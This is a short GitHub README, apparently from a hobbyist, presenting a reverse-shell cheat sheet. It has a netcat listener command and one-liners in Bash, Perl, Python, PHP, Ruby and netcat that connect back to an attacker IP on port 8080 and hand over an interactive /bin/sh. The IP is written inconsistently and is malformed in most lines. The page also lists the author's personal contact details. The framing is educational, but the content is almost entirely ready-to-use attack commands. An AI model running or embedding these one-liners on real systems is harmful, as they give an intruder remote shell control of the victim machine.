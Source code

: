 Date : 08/06/2020
Made By : Ashutosh kumar gautam 
Contact me : ashutoshkumargautam@protonmail.com
Phone number : 7217723683
Blog : Www.suggestmeindia.in

# Advance-Reveresh-connection-programs
This project for reversh connection program this will help to understand how you can take reversh connection advantage with programming.
--------------------------------------------------------------------------------------------------------------------------------
The following examples assums the hacker IP is 10.20.14 and use port 8080 for the connection.
Therefore in all f these cases you need to listen for port 8080 using the foolowing command
nc -vv -l -p 8080


BASH
bash -i >& /dev/tcp/10.20.14.203/8080 0>&1

PERL
perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

PHP
php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'

Ruby
ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Netcat
nc -e /bin/sh 10.20.14 8080

Thank you 

Made by : Ashutosh kumar gautam 
